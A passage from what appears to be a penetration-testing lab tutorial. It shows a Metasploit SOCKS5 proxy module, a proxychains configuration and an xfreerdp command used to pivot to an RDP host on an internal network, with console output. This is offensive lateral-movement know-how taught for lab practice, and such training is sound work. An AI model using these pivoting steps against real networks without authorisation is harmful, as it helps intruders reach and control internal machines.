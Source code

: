 ```bash


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
```

We can now update our proxychains configuration file (/etc/proxychains4.conf) to take advantage of the SOCKS5 proxy.

After editing the configuration file, it should appear as follows:

```bash
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 1080
```

Finally, we can use proxychains to run xfreerdp to obtain GUI access from our Kali Linux system to the target machine on the internal network.

```bash
kali@kali:~$ sudo proxychains xfreerdp /v:172.16.5.200 /u:luiza

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.5.200:3389  ...  OK
...
Certificate details for 172.16.5.200:3389 (RDP-Server):
        Common Name: itwk02
        Subject:     CN = itwk02
        Issuer:      CN = itwk02
        Thumbprint:  4b:ef:ec:bb:96:7d:03:01:53:f3:03:de:8b:39:51:a9:bb:3f:1b:b2:70:83:08:fc:a7:9a:ec:bb:e7:ed:98:36
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
Password:
```
